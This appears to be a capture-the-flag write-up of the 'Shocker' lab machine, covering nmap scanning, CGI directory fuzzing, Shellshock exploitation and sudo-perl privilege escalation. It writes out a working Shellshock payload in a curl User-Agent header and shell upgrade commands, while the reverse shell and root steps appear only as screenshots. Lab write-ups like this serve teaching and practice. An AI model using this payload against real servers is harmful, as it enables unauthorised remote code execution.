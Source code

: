 ```yaml
---
title: Shocker Writeup(Easy)
published: true
---
```


# [](#header-2)Recognition

First of all we do a scan with nmap:

```bash
sudo nmap -sS -p- --open 10.129.50.136 -n -Pn -v
```

The nmap command reported the following ports:
*   Port 80
*   Port 2222

We do a second, more advanced scan:

```bash
sudo nmap -sCV -p80,2222 10.129.50.136
```

The scan reports the following information:

![Escaneo nmap](/assets/shocker/nmapScan.png)

We can see that the **ssh** version is vulnerable to **user enumeration(CVE-2016-6210)** and there is a **web service** running with Apache.

For the moment we are going to start with the web server.

![whatweb command](/assets/shocker/whatweb.png)

The **whatweb** command doesn't give us much information so let's visit the website.

![website](/assets/shocker/website.png)

In the website there is only one image, but after using gobuster to search other directories we found the **cgi-bin** directory.

![gobuster cgi-bin](/assets/shocker/cgi-bin.png)

Now we fuzz in this directory for any file with the extension  **cgi, sh, pl, py**.

![gobuster user.sh](/assets/shocker/usersh.png)

After some research I discovered that cgi scripts can be vulnerable to [shellsock](https://antonyt.com/blog/2020-03-27/exploiting-cgi-scripts-with-shellshock) so we try to change the **User-Agent**.

# [](#header-2)Explotation

We use the following command and we can execute the command **id**, so we try to get a reverse shell.

```bash
curl -s -X GET "http://10.129.50.136/cgi-bin/user.sh" -H "User-Agent: () { :; }; echo; /usr/bin/id"
```

We use nc to get a reverse shell:

![reverse shell](/assets/shocker/reverseshell.png)

Now we use the command from [hacktricks](https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/full-ttys) to get a full tty shell:

```bash
script /dev/null -qc /bin/bash #/dev/null is to not store anything
(inside the nc session) CTRL+Z;stty raw -echo; fg; ls; export SHELL=/bin/bash; export TERM=screen; stty rows 38 columns 116; reset;
```

We get the **user flag** from the home directory:

![user flag](/assets/shocker/userflag.png)

# [](#header-2)Privilege Escalation

Using the command **sudo -l** we can see that we can execute perl as **root**.

![sudo -l](/assets/shocker/sudo-l.png)

Using the [gtfobins](https://gtfobins.github.io/gtfobins/perl/#shell) command we can get a shell as **root**.

![privilege escalation](/assets/shocker/privesc.png)

Now that we are root we can see the root flag.

![root flag](/assets/shocker/rootflag.png)
